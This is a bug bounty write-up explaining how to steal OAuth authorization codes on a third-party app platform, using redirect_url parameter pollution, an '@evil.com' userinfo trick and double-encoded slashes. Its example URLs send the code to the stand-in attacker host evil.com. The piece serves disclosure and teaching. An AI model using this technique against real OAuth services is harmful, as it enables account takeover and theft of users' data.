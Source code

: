 # Steal the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
**https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]** , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this **https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value]**, By doing this I found that example.com redirects me to third.com but with this intersting way **https://third.com/callback/,https://evil.com?code=[some value]&state=[some value]**, Noticed the  **,http://evil.com**, I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this **redirect_url=https://third.com/callback&redirect_uri=https://evil.com** and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this **https://third.com/callback,https://evil.com**, I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this **https://third.com/callback/,@evil.com** it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this **https://third.com%252Fcallback%252F**.


Why double encode it? because, If you redirected to an endpoint like this **https://third.com%2Fcallback%2F,@evil.com** you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this **https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state]** and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this **https://third.com%252Fcallback%252F** but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .

### Range Hall Of Fame : https://www.range.co/security/hall-of-fame (as Mekky)

### My Info :

#### Intigriti : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter : https://twitter.com/Mekky49295157


